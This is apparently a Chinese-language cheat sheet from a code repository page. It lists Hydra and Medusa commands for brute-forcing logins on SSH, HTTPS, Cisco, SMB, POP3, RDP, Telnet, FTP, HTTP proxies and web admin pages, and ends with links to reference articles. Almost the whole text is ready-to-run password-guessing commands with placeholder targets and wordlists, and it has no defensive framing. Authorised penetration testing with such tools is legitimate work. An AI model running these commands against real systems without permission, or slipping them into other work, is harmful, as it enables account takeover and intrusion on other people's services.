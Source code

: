 ```
使用hydra破解ssh的密码

hydra -L users.txt -P password.txt -vV -o ssh.log -e ns IP ssh

破解https：

# hydra -m /index.php -l username -P pass.txt IP https

破解teamspeak：

# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

破解cisco：

# hydra -P pass.txt IP cisco

# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

破解smb：

# hydra -l administrator -P pass.txt IP smb

破解pop3：

# hydra -l muts -P pass.txt my.pop3.mail pop3

破解rdp：

# hydra IP rdp -l administrator -P pass.txt -V

破解http-proxy：

# hydra -l admin -P pass.txt http-proxy://10.36.16.18

破解telnet

# hydra IP telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V

破解ftp：

# hydra IP ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV

# hydra IP ftp -l 用户名 -P 密码字典 -e ns -vV

get方式提交，破解web登录：

# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns IP http-get /admin/

# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f IP http-get /admin/index.php
```

使用medusa爆破

```
medusa -M ssh -h 127.0.0.1 -F -u cqq -P /tmp/pass.txt
```


## 参考
http://www.vuln.cn/2528
http://blog.51cto.com/jzking121/1770605
https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/
https://www.cnblogs.com/ch3n3y/p/5877018.html
http://foofus.net/goons/jmk/medusa/medusa.html
